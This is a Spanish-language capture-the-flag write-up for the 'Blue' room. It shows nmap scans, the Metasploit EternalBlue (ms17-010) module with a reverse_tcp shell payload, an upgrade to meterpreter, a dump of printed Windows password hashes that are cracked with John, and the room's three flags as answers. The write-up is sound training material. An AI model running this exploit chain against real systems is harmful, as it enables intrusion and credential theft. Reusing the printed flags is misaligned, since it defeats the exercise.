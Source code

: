 # Blue

Esta máquina nos *guía* con las preguntas que nos hacen. Ha sido fácil de completar, quitando algunos errores que tenía la máquina(había que reiniciar y empezar de 0).
Para esta documentación, me voy a limitar a traducir y desarrollar las preguntas que nos hacen con una captura y una oración explicativa.

# Proceso

- Escanea la máquina.
Como no nos especifican que daros quieren que saquemos, haga un escaneo básico de los 1000 puertos más habituales.

![alt text](img/image.png)
> nmap {ip_host}

Este escaneo nos ha dado 4 puertos que podríamos mirar, y el resto con servicios desconocidos.

- ¿Cuántos puertos abiertos hay por debajo del 1000?
Podemos usar el comando anterior, pero para asegurarnos vamos a utilizar un rango de puertos.

![alt text](img/image-1.png)
> nmap -p 1-1000 {ip_host}

Nos aseguramos, y la respuesta es 3.

- ¿A qué es vulnerable esta máquina?
Para ver esto, vamos a utilizar un script de nmap que busca vulnerabilidades en los servicios. Uso el mismo rango de antes porque entiendo que las preguntas están enlazadas.

![alt text](img/image-2.png)
> nmap --script vuln -p 1-1000 {ip_host}

El escaneo nos chiva que existe una vulnerabilidad en el servicio SMBv1 llamada **ms17-010**

- Inicia Metasploit

![alt text](img/image-3.png)
> sudo msfconsole 👍

- Busca la vulnerabilidad. ¿Cuál es la ruta completa del código?
Buscamos la vulnerabilidad anterior en la base de datos de Metasploit

![alt text](img/image-4.png)
> search ms17-010
> exploit/windows/smb/ms17_010_eternalblue

Esto nos dará varias entradas, pero el título de la *Room* nos dice cual es la que nos interesa, en este caso es la primera(la 0 en idioma informático).

- Muestra las opciones y configura la que tiene un valor obligatorio.
Usamos el modulo 0 y mostramos sus opciones, en este caso la única obligatoria es RHOST.

![alt text](img/image-5.png)

Establecemos el valor de RHOST, y cambio el de LHOST, ya que estaba pillando otra IP.

![alt text](img/image-6.png)

Antes de iniciar el exploit, los creadores nos recomiendan establecer el siguiente payload.

![alt text](img/image-7.png)
> set payload windows/x64/shell/reverse_tcp

Lo establecemos e iniciamos el exploit con *run*.

![alt text](img/image-8.png)

Ya estaríamos dentro del sistema de Windows, pero esta terminal no nos gusta, vamos a mejorarala.

![alt text](img/image-9.png)

Paramos la sesión con CTRL + Z.

- Investigue en línea cómo convertir un shell a meterpreter shell en metasploit. ¿Cuál es el nombre del módulo de publicación que usaremos?

Internet = ChatGPT

![alt text](img/image-10.png)

- Selecciona este módulo y muestra las opciones obligatorias de configurar.

![alt text](img/image-11.png)

La única opción obligatoria es *SESSION*, la sesión que paramos antes.

- Establece la opción necesaria, necesitaras listar las sesiones.

![alt text](img/image-12.png)

Listamos las sesiones con sessions -l y, aunque no hace falta, establezco el LHOST por si aca.

- Inicia el exploit.
Lo iniciamos y lo dejamos cargar, se lleva su tiempo, pero si pone session 2 opened, ya puedes darle a *enter*.

![alt text](img/image-13.png)

Yo esperé un rato más, creyendo que iba a parar/pasar algo, pero no, hay que darle al enter.

![alt text](img/image-14.png)

- Una vez que se complete la conversión de la shell, selecciónala y úsala.

    Estás 2 preguntas las uno en la imágen de abajo.

- Lista los procesos usando el comando *ps*.

![alt text](img/image-15.png)

*Ahora se viene una parte que no entendí muy bien*

- Encuentra un proceso al final de la lista que esté siendo ejecutado por NT AUTHORITY\SYSTEM
De toda la lista de antes, elegí uno al azar, no sé si tuve suerte, si todos sirven...

![alt text](img/image-16.png)

Y, usando ese proceso, podemos sacar los hashes de los usuarios de la máquina. ¿Cómo? Si

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::

Le pasamos un john the reaper al hash de Jon y sacamos su contraseña.

![alt text](img/image-17.png)

- Encuentra las flags

Esta parte es muy simple, sobre todo teniendo en cuenta los permisos que tenemos ahora, y las pistas que nos dan.

- Flag1? Esta flag se puede encontrar en la raíz del sistema.

![alt text](img/image-18.png)
> flag{access_the_machine}

- Flag2? Esta flag se encuentra donde Windows guarda las contraseñas de los usuarios.

![alt text](img/image-19.png)
> flag{sam_database_elevated_access}

- Flag3? Esta flag está entre los archivos de Jon.

![alt text](img/image-20.png)
> flag{admin_documents_can_be_valuable}

## USER? No

No sé si al tener root, podemos iniciar sesión con un usuario.

## ROOT? Si
